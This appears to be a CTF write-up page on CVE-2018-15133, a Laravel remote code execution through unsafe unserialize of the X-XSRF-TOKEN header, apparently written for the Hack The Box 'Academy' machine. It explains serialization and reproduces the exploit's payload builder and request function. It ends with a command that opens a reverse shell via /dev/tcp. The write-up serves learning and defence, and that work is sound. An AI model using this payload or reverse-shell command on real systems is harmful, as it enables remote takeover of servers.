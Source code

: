 ```yaml
---
description: >-
  In Laravel Framework through 5.5.40 and 5.6.x through 5.6.29, remote code
  execution might occur.
---
```


# CVE-2018-15133

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

As a result of an unserialize call on a potentially untrusted X-XSRF-TOKEN value. This involves the decrypt method in Illuminate/Encryption/Encrypter.php and PendingBroadcast in gadgetchains/Laravel/RCE/3/chain.php in phpggc.

The attacker must know the application key, which normally would never occur, but could happen if the attacker previously had privileged access or successfully accomplished a previous attack.

***

Mitre CVE: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15133](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15133)

This CVE can be found in: [https://www.hackthebox.com/machines/academy](https://www.hackthebox.com/machines/academy)

Metasploit module: [https://www.exploit-db.com/exploits/47129](https://www.exploit-db.com/exploits/47129)

Python script: [https://github.com/aljavier/exploit\_laravel\_cve-2018-15133](https://github.com/aljavier/exploit_laravel_cve-2018-15133?tab=readme-ov-file)

***

### What is unserialize or deserialization?

First of all, serialization is the process of converting an object from memory into a stream of bytes that may be stored and restored later on. For example a python dictionary can be serialized into a stream of bytes.

{% hint style="info" %}
A stream of bytes is simply a sequence of bytes, one after the other, it is 8 bits composed of 1s and 0s. It's like a continuous flow of data. It can be text, images, audio or executables.
{% endhint %}

So now converting that stream of bytes back into the original python dictionary is called deserialization or unserializing.

<figure><img src="broken-reference" alt=""><figcaption><p>source: GeeksforGeeks</p></figcaption></figure>

### What is the purpose of serialization:

* Data storage: Save the state of an object or data structure to a file or database.
* Data transmission: Serialized data can be sent over a network or between different systems.

#### Example using a Python object.

```python
class Car:
    def __init__(self, brand, year):
        self.brand = brand
        self.year = year
```

Serialization of the Car class to JSON.

```python
{"name": "BMW", "year": 2024}
```

Now taking the JSON and deserializing it back into the Car object.

```python
json_data = '{"brand": "BMW", "year": 2024}'
person_object = json.loads(json_data)
# Resulting Python object: {'name': 'BMW', 'age': 2024}
```

## RCE Laravel

We can run any code we want via the `HTTP X-XSRF-TOKEN` header because it makes an insecure unserialize call to `Illuminate/Encryption/Encrypter.php`

Laravel sessions are JSON objects, and in Laraval the `Encrypter.php` file generates a `iv` and `value` using OpenSSL and serializes them before returning JSON encoded object as the output.

<details>

<summary>Encrypt function</summary>

<pre class="language-php"><code class="lang-php">public function encrypt($value, $serialize = true)
{
    $iv = random_bytes(openssl_cipher_iv_length($this->cipher));
    $value = \openssl_encrypt(
        $serialize ? serialize($value) : $value,
        $this->cipher, $this->key, 0, $iv
    );
<strong>    if ($value === false) {
</strong>        throw new EncryptException('Could not encrypt the data.');
    }
    $mac = $this->hash($iv = base64_encode($iv), $value);
    $json = json_encode(compact('iv', 'value', 'mac'));
    
    if (json_last_error() !== JSON_ERROR_NONE) {
        throw new EncryptException('Could not encrypt the data.');
    }
    return base64_encode($json);
}
</code></pre>

</details>

The other function in Ecrypter.php is decrypt where its getting the iv and value to decrypt data before deserializing the decrypted variable. When providing a valid JSON object it wil try to unserialize it and execute commands.

<details>

<summary>Decrypt function</summary>

```php
public function decrypt($payload, $unserialize = true)
{
$payload = $this->getJsonPayload($payload);
$iv = base64_decode($payload['iv']);
$decrypted = \openssl_decrypt(
$payload['value'], $this->cipher, $this->key, 0, $iv
);
if ($decrypted === false) {
throw new DecryptException('Could not decrypt the data.');
}
return $unserialize ? unserialize($decrypted) : $decrypted;
}
```

</details>

{% hint style="info" %}
In short: The vulnerabilty is in the `decrypt` function's unserialization process. By providing a valid JSON structure, the function assumes the data is safe to unserialize, even if it contains malicious code, resulting in RCE.
{% endhint %}

### The exploit

You can find the python script here: [exploit\_laravel\_cve-2018-15133](https://github.com/aljavier/exploit_laravel_cve-2018-15133/blob/main/pwn_laravel.py). The 3 functions that execute the exploit are generate\_payload, encrypt and exploit.

#### generate\_payload

Function will encode data base64 and assign to `value` . Decodes base64 leaked API key and add is to `key`.

```python
def generate_payload(cmd, key, method=1):
# Porting phpgcc thing for Laravel RCE php objects - code mostly borrowed from Metasploit's exploit
if method == 1: # Laravel RCE1
payload_decoded = 'O:40:"Illuminate\\Broadcasting\\PendingBroadcast":2:
{s:9:"' + "\x00" + '*' + "\x00" + 'events";O:15:"Faker\\Generator":1:{s:13:"' +
"\x00" + '*' + "\x00" + 'formatters";a:1:{s:8:"dispatch";s:6:"system";}}s:8:"' +
"\x00" + '*' + "\x00" + 'event";s:' + str(len(cmd)) + ':"' + cmd + '";}'
<SNIP>
    value = base64.b64encode(payload_decoded.encode()).decode('utf-8')
    key = base64.b64decode(key)
    return encrypt(value, key)
```

encrypt

This function uses cipher to encrypt `mac`, `vi` and `value`. Its then passed in JSON format and base64 encoded as `payload_encoded`.

```python
def encrypt(text, key):
    cipher = AES.new(key,AES.MODE_CBC)
    value = cipher.encrypt(pad(base64.b64decode(text), AES.block_size))
    payload = base64.b64encode(value)
    iv_base64 = base64.b64encode(cipher.iv)
    hashed_mac = hmac.new(key, iv_base64 + payload, sha256).hexdigest()
    iv_base64 = iv_base64.decode('utf-8')
    payload = payload.decode('utf-8')
    data = { 'iv': iv_base64, 'value': payload, 'mac': hashed_mac}
    json_data = json.dumps(data)
    payload_encoded = base64.b64encode(json_data.encode()).decode('utf-8')
    return payload_encoded
```

exploit

Is making a POST request and passing the payload into the `X-XSRF-TOKEN` header. They payload is made of cmd, api\_key and method.

<pre class="language-python"><code class="lang-python">def exploit(url, api_key, cmd, method=1):
<strong>    payload = generate_payload(cmd, api_key, method)
</strong>    return requests.post(url,headers={'X-XSRF-TOKEN': payload})
</code></pre>

Running the python script gives a reverse shell.

```bash
$ python3 laravel.py -c "bash -c '/bin/bash -i >& /dev/tcp/10.10.14.9/8888 0>&1'" http://dev-staging-01.academy.htb/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= 
```

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>
